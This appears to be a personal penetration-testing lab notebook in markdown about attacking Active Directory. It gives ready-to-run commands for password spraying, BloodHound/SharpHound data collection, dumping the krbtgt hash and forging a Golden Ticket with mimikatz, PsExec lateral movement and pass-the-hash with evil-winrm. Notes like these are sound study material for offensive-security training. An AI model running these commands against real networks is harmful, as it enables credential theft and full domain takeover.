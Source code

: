 #show
<%*
const path = tp.file.folder(true).split('/');
const filename = "2_B_AD_" + path[path.length - 1];
await tp.file.rename(filename);
tR += "Part of " + "[" + "[" + "0_Lab_" + path[path.length - 1] + "]]";
-%>

# Password spraying
Check for AD account lockout policy
```powershell
net accounts
```
If not set, we can try to spray AD passwords by two means:
- `.\Spray-Passwords.ps1 -Pass Nexus123! -Admin` (see `~/Documents/activeInformationGathering`)
- `kerbrute passwordspray -d corp.com .\users.txt "Password"` (cross-platform but requires UDP. Text file must be ANSI, else network error)
- `crackmapexec smb $hip -u $user -p '$password' -d corp.com --continue-on-success`
# BloodHound
1. **Setup C2 (Kali)**
```bash
(sleep 15 && bloodhound)& export PS1="$PS1\[\e]0;BloodHound\a\]"; sudo -b neo4j console
```
Enter root-pw into console. Use `neo4j:wandton` as login. If this doesn't work, login to `http://localhost:7474` with `neo4j:neo4j` and change password

One must also transfer the SharpHound script or executable to the victim ([[2_fileTransfer]]). They are in `/ftphome/`

2. **Collect data (Victim)**
```powershell
powershell -ep bypass
```

```powershell
.\SharpHound.exe --CollectionMethods All
```
or
```powershell
Import-Module .\Sharphound.ps1; Invoke-BloodHound -CollectionMethod All -OutputDirectory $dir
```
(Both gather all data except for local group policies.)

When done, transfer the .zip to kali ([[2_fileTransfer]])

3. **Analyze data (Kali)**
	1. In the Web-Interface, use the "Upload Data" function to upload the .zip
	2. Click the "More Info" tab on the top left. Change to tab "Analysis"
	3. Enter `MATCH (m:Computer) RETURN m` as raw query on the bottom. Right-click the node and select "Mark as Owned"
	4. Same for `m:User`
	5. Run the following analysis:
		1. _Shortest Paths to Domain Admins from Owned Principals_
		2. _Find Workstations where Domain Users can RDP_
		3. _Find Servers where Domain Users can RDP_
		4. _Find Computers where Domain Users are Local Admin_
	6. Check Relation-Ships with `MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p`
	Tips: Use the Control-Key to show information about all nodes. Look for the "?" Help menu, it also contains abuse possibilities.

# Yet-to-test attacks



##### Golden Ticket with mimikatz
Enter mimikatz
```
privilege::debug
```
Save Domain ID (sid), Primary NTLM
```
lsadump::lsa /inject /name:krbtgt
```
Create Golden Ticket (saved to ticket.kirbi)
```
kerberos::golden /user:Administrator /domain:%dns% /sid:%sid% /krbtgt:%ntlm% /id:500
```
Open a CMD with elevated privileges to all machines
```
misc::cmd
```
Runs cmd.exe on $machine (Needs PsExec.exe - you can scp) 
```powershell
PsExec.exe \\$machine cmd.exe
```

##### Pass-The-Hash Attack
```
evil-winrm -i $hip -u $user -H $hash
```
